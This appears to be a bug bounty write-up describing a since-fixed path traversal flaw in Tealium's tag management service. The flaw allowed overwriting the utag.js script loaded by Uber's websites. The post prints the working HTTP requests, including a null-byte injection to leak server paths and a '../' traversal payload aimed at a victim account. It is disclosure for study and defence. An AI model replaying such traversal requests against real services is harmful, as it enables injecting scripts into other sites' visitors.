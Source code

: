 title: "[BBP系列三] Hijack the JS File of Uber's Website"
date: 2018-12-03 13:11:08
tags: ["安全", "BBP"]
---

### TLDR
1. Almost all of Uber's websites are loading JS file: https://tags.tiqcdn.com/utag/uber/main/prod/utag.js 
2. I found that the content of utag.js is updating from `/data/utui/data/accounts/uber/templates/main/utag.js` when deploying in my.tealiumiq.com. 
3. my.tealiumiq.com has a path traversal issue, which allow hacker to change `utag.js` of other account, including Uber's.
4. This bug had beed fixed 8 months ago. Bug Bounty: $6000.

### My Steps

I like asking myself some questions when hunting for bug bounty. Looking around about `https://tags.tiqcdn.com/utag/uber/main/prod/utag.js`, I found Uber's websites were using a third party service offered by `Tealium`. I asked myself: can I modify the content of `utag.js`? How?

I registered two account and began my journey. WARNING: DO NOT TEST IN PRODUCTION USING TARGET ACCOUNT.

![](https://ws1.sinaimg.cn/large/7184df6bgy1fxtifofrypj20gh0bq0tw.jpg)

* Post `/urest/legacy/saveTemplate` with `profile=main%00` to get the path in server

```http
POST /urest/legacy/saveTemplate?utk=044925f62222711fdfec11dc6a4e7160e053d31e1a7f4774e8 HTTP/1.1
Host: my.tealiumiq.com
<redated>

account=evilaccount&profile=main%00&type=profile&template=profile.loader&code=%2F%2F+console.log(1)%3B%0A%0Aconsole.log(1)%3B
```

Response
```json
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/utag.js"}
```

As you can see, the `utag.loader` template path is `/data/utui/data/accounts/evilaccount/templates/main/utag.js`

* Change the requst body to update the revision.loader

```http
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1

account=evilaccount&profile=main%00&type=revision&template=revision.loader&code=thisisatest&revision=201804081230
```

Response
```json
{ "message" : "There was an error updating this template: /data/utui/data/accounts/evilaccount/templates/main/201804081230/utag.js"}
```

As you can see `201804081230` is appearing at the path. After testing, I found that I can insert `../` into this path, which means that I can change utag.js of any account, including Uber's.


```http
POST /urest/legacy/saveTemplate?utk=688b137d1b8d8e884b3e1be4cd689843d0e3bc9705665f059b HTTP/1.1
...

account=evilaccount&profile=main&type=revision&template=revision.loader&code=thisisatest&revision=201804081230/../../../../<victimaccount>/templates/main
```